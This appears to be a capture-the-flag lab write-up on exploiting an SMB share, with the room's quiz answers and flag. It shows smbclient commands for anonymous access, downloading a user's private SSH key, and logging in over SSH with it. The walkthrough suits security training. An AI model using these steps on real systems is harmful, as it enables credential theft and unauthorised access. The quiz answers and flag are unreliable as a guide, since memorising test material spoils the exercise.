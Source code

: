 - What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?	``smbclient //10.10.10.2/secret -u suit -p 139``
-  Great! Now you've got a hang of the syntax, let's have a go at trying to exploit this vulnerability. You have a list of users, the name of the share (smb) and a suspected vulnerability. 	``no answer needed``
-  Does the share allow anonymous access? Y/N?	``Y``
-  Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?	``John Cactus``
	
````
❯ smbclient //10.10.116.16/profiles -u Anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr 21 07:08:23 2020
  ..                                  D        0  Tue Apr 21 06:49:56 2020
  .cache                             DH        0  Tue Apr 21 07:08:23 2020
  .profile                            H      807  Tue Apr 21 07:08:23 2020
  .sudo_as_admin_successful           H        0  Tue Apr 21 07:08:23 2020
  .bash_logout                        H      220  Tue Apr 21 07:08:23 2020
  .viminfo                            H      947  Tue Apr 21 07:08:23 2020
  Working From Home Information.txt      N      358  Tue Apr 21 07:08:23 2020
  .ssh                               DH        0  Tue Apr 21 07:08:23 2020
  .bashrc                             H     3771  Tue Apr 21 07:08:23 2020
  .gnupg                             DH        0  Tue Apr 21 07:08:23 2020

````

we see that there is an interesting file, can we open it with ``print``? Nope, lets send it to our machine.  
````
smb: \> get "Working From Home Information.txt" /root/hola.txt
getting file \Working From Home Information.txt of size 358 as /root/hola.txt (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
-------------------------------------------------------------------------
❯ cat hola.txt
John Cactus,

As you're well aware, due to the current pandemic most of POLO inc. has insisted that, wherever 
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager 
````

- What service has been configured to allow him to work from home? ``ssh``
- Okay! Now we know this, what directory on the share should we look in? ``.ssh``
- This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?	``id_rsa``
````
smb: \.ssh\> mget id_rsa* 
getting file \.ssh\id_rsa of size 1679 as /root/id_rsapolosmb3 (10.2 KiloBytes/sec) (average 6.2 KiloBytes/sec)
getting file \.ssh\id_rsa.pub of size 396 as /root/idpublica (2.5 KiloBytes/sec) (average 5.0 KiloBytes/sec)
-------------------------------------------------------------------------
❯ /bin/cat idpublica
ssh-rsa BLABLABLA --> cactus@polosmb that is the username for the ssh
❯ ssh cactus@10.10.116.16 -i id_rsa
-------------------------------------------------------------------------
cactus@polosmb:~$ cat smb.txt 
THM{smb_is_fun_eh?}
````